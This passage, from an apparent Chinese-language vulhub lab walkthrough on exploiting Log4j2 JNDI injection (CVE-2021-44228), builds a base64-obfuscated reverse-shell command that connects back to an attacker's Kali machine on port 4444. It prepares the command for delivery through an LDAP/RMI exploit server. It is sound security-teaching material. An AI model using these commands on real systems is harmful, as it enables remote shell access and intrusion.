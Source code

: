 `拿到权限。`

存在特殊字符，对脚本进行 base64 编码

```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjYuMjQvNDQ0NCAwPiYx
```

![对脚本进行 base64 编码](./../../../../../images/vulhub/log4j/Apache%20Log4j2%20lookup%20JNDI%20%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-44228%EF%BC%89/%E5%AF%B9%E8%84%9A%E6%9C%AC%E8%BF%9B%E8%A1%8C%20base64%20%E7%BC%96%E7%A0%81.png)

echo 命令输出 base64 字符串传递给 base64 -d 进行解码

> 目标为 Linux 的一般都可以

```
┌──(root㉿kali)-[~]
└─# echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjYuMjQvNDQ0NCAwPiYx | base64 -d
```

解码后的内容传递给 bash 即可执行

```
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjYuMjQvNDQ0NCAwPiYx | base64 -d | bash
```

整条命令合并到一起

```
bash -c "{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjYuMjQvNDQ0NCAwPiYx}|{base64,-d}|bash"
```

| 操作 | 描述                                                |
| ---- | --------------------------------------------------- |
| -c   | 可以执行一长串命令                                  |
| { }  | 用于声明其中内容是一个整体，并且在当前 shell 下执行 |

**将脚本加入到 LDAP 或 RMI 启动执行的命令中**

> 将 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar 上传到 Kali 系统的 /root 目录下
